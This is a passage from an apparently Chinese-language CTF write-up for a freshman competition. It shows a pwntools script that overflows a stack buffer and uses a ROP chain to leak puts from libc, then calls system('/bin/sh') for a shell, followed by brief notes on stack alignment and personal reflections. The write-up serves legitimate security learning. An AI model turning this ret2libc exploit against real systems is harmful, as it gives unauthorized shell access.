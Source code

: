 ```python
# print(shell)
# print(len(shell))

# pause()
ret=0x000000000040101a
# payload_test=b'a'*0x48+b'@'*7+b'a'*8+p64(out_put) # 0x48+0x38+0x8+p64(output)
# payload_test=b'@'*14+shell+p64(0x403510) # 0x70+0x18ret_addr:out_put+0x70

payload_1=b'@'*14+b'a'*0x18+p64(ret)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(elf.sym['main']) # 14*8+0x18

pause()

target.send(payload_1)

pause()
puts_addr=u64(target.recv(6).ljust(8,b'\x00'))

print(hex(puts_addr))

libc_base=puts_addr-libc.sym['puts']
system_addr=libc.sym['system']+libc_base
str_bin_sh=next(libc.search("/bin/sh\x00"))+libc_base

target.sendlineafter("但密码是什么？\n",b'We passed the end, so we chase forever')

payload_2=b'@'*14+b'a'*0x18+p64(pop_rdi)+p64(str_bin_sh)+p64(system_addr)

target.sendafter("你可以继续写下去了\n",payload_2)

# pause()
target.interactive()



```

当时试了试retshellcode的思路,不行,好像有保护,嘻嘻

记得栈对齐(有的体要加个ret)

# 总结

没做出来多少,哎呀,这还是新生赛,哎呀,感觉新生赛越来越难了

官方发的wp需要i仔细研究研究,

我一直有个疑问,做这些题干啥,二进制安全不好实战呀,而且不好找工作,但是,我做出来题之后,总有一种开心的感觉

,可能这就是对自己的一种取悦或者自我安慰吧哈哈哈.
本次比赛为新生赛,比较菜,做出来的题不多(bushi)
